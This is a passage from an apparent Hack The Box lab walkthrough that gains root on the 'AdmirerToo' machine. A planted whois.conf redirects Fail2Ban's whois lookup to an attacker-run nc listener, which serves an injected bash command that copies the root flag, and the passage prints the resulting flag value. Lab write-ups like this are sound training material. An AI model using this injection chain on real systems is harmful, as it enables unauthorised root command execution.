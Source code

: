 Send to the box, then switch to our SSH session connected as Jennifer. Make sure the file is there:

```text
jennifer@admirertoo:~$ cat /usr/local/etc/whois.conf 
[{"Expires":1,"Discard":false,"Value":"}]|. [10.10.14.169]\n"}]
```

Create a payload on Kali that we want to inject in to the email and have executed on the box. I could have gone for a reverse shell but to keep it simple I'm just copying the root flag out:

```sh
┌──(root💀kali)-[~/htb/admirertoo]
└─# cat flag_copy.txt
~| bash -c "cp /root/root.txt /tmp/root.txt && chmod 777 /tmp/root.txt" &
```

Note my code I want to execute starts with the ~| which was identified in the Fail2Ban exploit as the way to inject. Now start nc listening locally on port 43, which is what whois will talk to us on:

```sh
┌──(root💀kali)-[~/htb/admirertoo]
└─# nc -nvlkp 43 -c "cat /root/htb/admirertoo/flag_copy.txt"
listening on [any] 43 ...
```

## Root Flag

Now fail to log in to SSH three times to cause Fail2Ban to send the email, which will use whois to look up our IP, which will get redirected to our waiting nc listener because of the whois.conf file we dropped, which in turn will send the text file back that has our cp in it:

```sh
┌──(root💀kali)-[~/htb/admirertoo]
└─# ssh -L 1234:127.0.0.1:8080 jennifer@admirer-gallery.htb
jennifer@admirer-gallery.htbs password: 
Permission denied, please try again.
jennifer@admirer-gallery.htbs password: 
Permission denied, please try again.
jennifer@admirer-gallery.htbs password: 
jennifer@admirer-gallery.htb: Permission denied (publickey,password).
```

Now finally back on the box as Jennifer we have access to the root flag in the /tmp folder:

```text
jennifer@admirertoo:~$ cat /tmp/root.txt 
e3eeb41b4e22ad1ca6419cf2501b2ab2
```

All done. See you next time.
